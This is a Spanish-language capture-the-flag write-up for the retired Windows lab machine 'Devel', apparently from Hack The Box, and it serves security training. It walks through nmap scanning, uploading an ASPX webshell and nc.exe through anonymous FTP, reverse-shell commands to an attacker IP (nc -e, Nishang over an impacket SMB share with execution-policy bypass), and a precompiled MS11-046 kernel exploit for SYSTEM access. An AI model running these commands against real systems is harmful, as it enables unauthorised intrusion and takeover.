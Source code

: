 # Devel

![](./images/devel.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Escalada de Privilegios](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|FTP-Web|Kernel|

#
## 2. Enumeración<a name="id1"></a>

### 2.1 Nmap

* Se lanza un escano **tcp port syns** scan jugando con el **min-rate** para no emitir paquetes más lentos que 5000 paquetes por segundo . Como resultado, se obtiene que los puertos 21 (ftp) y 80 (http) están abiertos.

![](./images/allPorts.png)

* Se lanzan una serie de scripts básicos de enumeración y para detectar la versión del puerto. La salida revela que el puerto 21 (ftp) tiene el acceso "anonymous" habilitado por defecto.

![](./images/targeted.png)

### 2.2 Web

* Haciendo uso de firefox, se analiza el contenido de la página web junto con las herramientas de desarrollador. 

* Destaca un archivo, la imagen **welcome.png**. Mismo nombre que se encuentra en el directorio raiz del ftp.

![](./images/webs.png)

* Se prueba a subir vía ftp un archivo index.html. Si el servicio web hace uso del directorio raiz del servicio ftp para cargar los archivos, éste reproducirá el contenido del index.html.

![](./images/inyeccion.png)

* Wappalycer revela que se trata de un framework ASP.NET por lo que se puede subir una **webshell** en aspx para ejecutar código en la **máquina**.

#
## 3. Explotación<a name="id3"></a>

### 3.1 WebShell

* Haciendo uso de las **seclists** se localiza una cmd.aspx para subir al servidor vía ftp y un nc.exe para entablar una reverse shell.

```ftp
ftp> binary # Muy importante, error muy común
200 Type set to I.

ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1400 bytes sent in 0.00 secs (16.2822 MB/s)

ftp> put nc.exe 
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.01 secs (3.8814 MB/s)
ftp>
```

### 3.2 Reverse Shell con nc.exe

* El directorio raiz que utiliza ASP.NET es C:\inetpub\wwwroot\.

![](./images/reverse.png)

```bash
C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.20 443
```

```bash 
rlwrap nc -lvnp 443
```

### 3.3 Reverse shell con Nishang

* Compartimos la shell en powershell com **impacket-smbserver** dando soporte a SMB2.

```bash
impacket-smbserver shell . -smb2support
```

* Finalmente se ejecuta el script en powershell. Para ello fue necesario permitir explicitamente la ejecución de scripts en powershell.

```bash
powershell -ExecutionPolicy Bypass \\10.10.14.20\SHELL\Invoke-PowerShellTcp.ps1
```

![](./images/nishang.png)

#
## 4. Escalada de Privilegios<a name="id4"></a>

### 4.1 CVE-2011-1249 - MS11-046

* La forma mas fácil es buscar el copilado  en un repositorio de github. https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2011-1249. Finalmente este copilado se traslada a la máquina y se ejecuta obteniendo privilegios de NT Authority System.

![](./images/elevate.png)





